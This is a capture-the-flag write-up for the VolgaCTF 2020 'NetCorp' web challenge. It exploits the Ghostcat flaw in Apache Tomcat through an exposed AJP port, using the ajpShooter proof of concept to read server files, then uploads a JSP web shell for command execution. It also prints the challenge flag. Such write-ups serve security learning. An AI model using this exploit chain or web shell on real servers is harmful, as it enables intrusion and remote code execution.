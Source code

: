 # NetCorp
### Category: web
### Description:
Another telecom provider. Hope these guys prepared well enough for the network load...

netcorp.q.2020.volgactf.ru

### Solution:
In this challenge all we get is a URL to a page [this one](index.html), there is nothing in this website that can be spotted from here except for a folder name `resources` that stores images and other stuff. No robots.txt, no backup, nothing. Using dirb on the site we get some juicy information:

```bash
---- Scanning URL: http://netcorp.q.2020.volgactf.ru:7782/ ----
+ http://netcorp.q.2020.volgactf.ru:7782/docs (CODE:302|SIZE:0)
+ http://netcorp.q.2020.volgactf.ru:7782/examples (CODE:302|SIZE:0)
+ http://netcorp.q.2020.volgactf.ru:7782/index.html (CODE:200|SIZE:2684)
+ http://netcorp.q.2020.volgactf.ru:7782/resources (CODE:302|SIZE:0)
+ http://netcorp.q.2020.volgactf.ru:7782/uploads (CODE:302|SIZE:0)
```

Whenever we visited `examples` and `docs` we gained an important information: the server is under Apache Tomcat so we googled about known CVE and there is one from a month ago: **Ghostcat**.

How the vuln works? Basically if there is an AJP port exposed we can reach a LFI and if we can upload arbitrary files we can even reach RCE. Let's run nmap:

```bash
0/tcp    filtered unknown
22/tcp   open     ssh
135/tcp  filtered msrpc
137/tcp  filtered netbios-ns
138/tcp  filtered netbios-dgm
139/tcp  filtered netbios-ssn
445/tcp  filtered microsoft-ds
7782/tcp open     unknown
8009/tcp open     ajp13
9090/tcp open     zeus-admin
```
There is an AJP port opened. So let's try if the server is effectively unpatched, for this we've used one of the poc that you can find on github: [AJPShooter](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

```bash
python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /WEB-INF/web.xml read
```
BOOM, the server is affected by the vuln! [response](web.xml)

From this file we can understand a couple of things:
```xml
<servlet>
  	<servlet-name>ServeScreenshot</servlet-name>
  	<display-name>ServeScreenshot</display-name>
  	<servlet-class>ru.volgactf.netcorp.ServeScreenshotServlet</servlet-class>
  </servlet>
  
  <servlet-mapping>
  	<servlet-name>ServeScreenshot</servlet-name>
  	<url-pattern>/ServeScreenshot</url-pattern>
  </servlet-mapping>


	<servlet>
		<servlet-name>ServeComplaint</servlet-name>
		<display-name>ServeComplaint</display-name>
		<description>Complaint info</description>
		<servlet-class>ru.volgactf.netcorp.ServeComplaintServlet</servlet-class>
	</servlet>

	<servlet-mapping>
		<servlet-name>ServeComplaint</servlet-name>
		<url-pattern>/ServeComplaint</url-pattern>
	</servlet-mapping>
```
Basically there are two webapps running on this tomcat installation: `ServeComplaint` and `ServeScreenshot`, to dump the file we need to understand where the java class files are stored: in the above file there is the tag `servlet-class` which gives us the name but no directory. Checking the tomcat docs we can find that the class are placed in the `/WEB-INF/classes` directory so let's exfiltrate the source code with:
```bash
python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /WEB-INF/classes/ru/volgactf/netcorp/ServeScreenshotServlet.class read -o ServeScreenshotServlet.class

python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /WEB-INF/classes/ru/volgactf/netcorp/ServeComplaintServlet.class read -o ServeComplaintServlet.class
```
To check the content you can use `file` which should output:
```bash
ServeComplaintServlet.class: compiled Java class data, version 52.0 (Java 1.8)
```

Let's reverse both class files with jd-gui: [ServeComplaintServlet](ServeComplaintServlet.java) is basically empty but [ServeScreenshotServlet](ServeScreenshotServlet.java) gives us the ability to upload file on the server, we have all the prerequisites for the RCE vuln, let's exploit!

Firstly we need to create a jsp file to execute shell commands:
```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML>
    <BODY>
        <pre>
        <%
            String command = "<command>";
            out.println("Command: " + command + "<BR>");
            Process p;
            if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
                p = Runtime.getRuntime().exec("cmd.exe /C " + command);
            }
            else{
                p = Runtime.getRuntime().exec(command);
            }
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
            out.println(disr);
            disr = dis.readLine();
            }
        %>
    </pre>
    </BODY>
</HTML>
```
I'll use `ls` command in first place to understand what is in the directory, we can upload it with a basic html form:
```html
<html>
<body>
   
    <form action="http://netcorp.q.2020.volgactf.ru:7782/ServeScreenshot" method="post" enctype="multipart/form-data">
        <input type="file" name="filename">
        <input type="submit" value="true">
    </form>

</body>
</html>
```

Once the response is `{'success':'true'}` we succesfully uploaded the file, we can calculate the filename with python hashlib:
```bash
python3 -c "import hashlib; print(hashlib.md5(b'shell.jsp').hexdigest())"
797cc99954a3c1a3dddeed68bb4377af
```
let's trigger the rce with:
```bash
python3 ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /uploads/797cc99954a3c1a3dddeed68bb4377af eval
```
We got the list of files, the RCE is working:
```html
<HTML>
    <BODY>
        <pre>
        Command: ls<BR>
17pekog1
17pekog1.1
17pekog1.2
17pekog1.3
17pekog1.4
BUILDING.txt
CONTRIBUTING.md
LICENSE
NOTICE
README.md
RELEASE-NOTES
RUNNING.txt
Runner34496.jar
bin
cmd.jsp
conf
curl
delta.jsp
delta.jsp.1
flag.txt
index.html
index.html.1
index.html.10
index.html.11
index.html.12
index.html.13
index.html.14
index.html.15
index.html.16
index.html.17
index.html.18
index.html.2
index.html.3
index.html.4
index.html.5
index.html.6
index.html.7
index.html.8
index.html.9
lib
lll
logs
temp
uipnopui
uipnopui.1
uipnopui.2
uipnopui.3
uipnopui.4
uipnopui.5
webapps
work

    </pre>
    </BODY>
</HTML>
```

the flag file is here, we just need to repeat the process with `cat flag.txt` command instead of ls and we should get the flag!

### Flag:
```
VolgaCTF{qualification_unites_and_real_awesome_nothing_though_i_need_else}
```